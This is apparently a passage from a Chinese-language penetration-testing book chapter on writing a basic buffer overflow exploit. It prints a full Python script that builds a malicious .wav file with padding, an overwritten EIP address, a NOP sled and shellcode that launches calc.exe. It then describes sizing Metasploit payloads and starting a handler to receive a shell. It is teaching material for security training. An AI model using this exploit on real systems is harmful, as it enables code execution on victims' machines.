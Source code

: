我们利用`calc.exe`代码进行的新攻击如下所示：

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xda\xd3\xd9\x74\x24\xf4\xb8\x2c\xde\xc4\x11\x5a\x29\xc9\xb1"
"\x31\x31\x42\x18\x03\x42\x18\x83\xea\xd0\x3c\x31\xed\xc0\x43"
"\xba\x0e\x10\x24\x32\xeb\x21\x64\x20\x7f\x11\x54\x22\x2d\x9d"
"\x1f\x66\xc6\x16\x6d\xaf\xe9\x9f\xd8\x89\xc4\x20\x70\xe9\x47"
"\xa2\x8b\x3e\xa8\x9b\x43\x33\xa9\xdc\xbe\xbe\xfb\xb5\xb5\x6d"
"\xec\xb2\x80\xad\x87\x88\x05\xb6\x74\x58\x27\x97\x2a\xd3\x7e"
"\x37\xcc\x30\x0b\x7e\xd6\x55\x36\xc8\x6d\xad\xcc\xcb\xa7\xfc"
"\x2d\x67\x86\x31\xdc\x79\xce\xf5\x3f\x0c\x26\x06\xbd\x17\xfd"
"\x75\x19\x9d\xe6\xdd\xea\x05\xc3\xdc\x3f\xd3\x80\xd2\xf4\x97"
"\xcf\xf6\x0b\x7b\x64\x02\x87\x7a\xab\x83\xd3\x58\x6f\xc8\x80"
"\xc1\x36\xb4\x67\xfd\x29\x17\xd7\x5b\x21\xb5\x0c\xd6\x68\xd3"
"\xd3\x64\x17\x91\xd4\x76\x18\x85\xbc\x47\x93\x4a\xba\x57\x76"
"\x2f\x34\x12\xdb\x19\xdd\xfb\x89\x18\x80\xfb\x67\x5e\xbd\x7f"
"\x82\x1e\x3a\x9f\xe7\x1b\x06\x27\x1b\x51\x17\xc2\x1b\xc6\x18"
"\xc7\x7f\x89\x8a\x8b\x51\x2c\x2b\x29\xae")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

然后我们运行代码生成新的恶意`.wav`文件，然后将其加载到程序中，查看 EIP 是否被覆盖，以及`calc.exe`二进制文件是否被执行。

![Writing a basic buffer overflow exploit](graphics/B04315_08_31.jpg)

因此，既然已经编写了基本漏洞，我们可以通过这个弱点对其进行更新以建立会话外壳。首先，我们需要确定什么负载大小最适合我们的利用。这个堆栈空间总体上是有限的，所以我们可以尝试在开始时最小化我们的足迹，但正如您将看到的，这并不重要。

您可以通过猜测并使用`msfvenom`和`-s`标志进行检查来生成有效负载，但这既低效又缓慢。您会发现，在生成有效负载时，根据您选择的有效负载类型以及删除错误字符和适当调整包大小所需的编码器，它们可能不兼容。

我们可以通过在`/usr/share/metasploit-framework/tools`目录中运行`payload_lengths.rb`脚本来确定一个好的起点，而不是玩猜测游戏。这些脚本提供了关于有效载荷长度的详细信息，但是我们认为如果可能的话，我们正在寻找小于 300 个字符的小载荷。因此，我们可以针对有效负载的大小运行脚本 awk，针对 Windows 环境中使用的有效负载运行 grep，如下所示：

![Writing a basic buffer overflow exploit](graphics/B04315_08_32.jpg)

该命令输出的结果不到 40，但一些好的选项包括：

![Writing a basic buffer overflow exploit](graphics/B04315_08_33.jpg)

在我们的 Metasploit 实例上，我们启动将接收 shell 的`exploit/multi/handler`。
